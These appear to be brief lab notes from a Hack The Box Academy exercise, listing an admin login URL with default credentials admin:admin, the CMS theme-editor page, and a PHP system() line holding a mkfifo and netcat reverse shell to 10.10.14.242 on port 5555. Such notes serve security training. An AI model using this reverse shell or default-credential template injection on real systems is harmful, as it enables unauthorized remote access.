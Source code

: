 # Academy notes

* [http://gettingstarted.htb/admin/](http://gettingstarted.htb/admin/)    admin:admin
* [http://gettingstarted.htb/](http://gettingstarted.htb/admin/)theme     where start the theme to execute the code
* [http://gettingstarted.htb/admin/theme-edit.php?t=Innovation\&f=template.php](http://gettingstarted.htb/admin/theme-edit.php?t=Innovation\&f=template.php)   to edit the template

```
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.242 5555 >/tmp/f');
```
